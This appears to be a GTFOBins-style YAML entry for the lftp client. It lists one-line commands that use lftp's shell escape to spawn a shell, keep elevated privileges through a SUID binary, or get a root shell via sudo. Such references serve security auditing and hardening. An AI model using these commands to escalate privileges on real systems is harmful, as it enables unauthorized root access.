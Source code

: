 ```yaml
---
functions:
  shell:
    - code: lftp -c '!/bin/sh'
  suid:
    - code: ./lftp -c '!/bin/sh -p'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
```

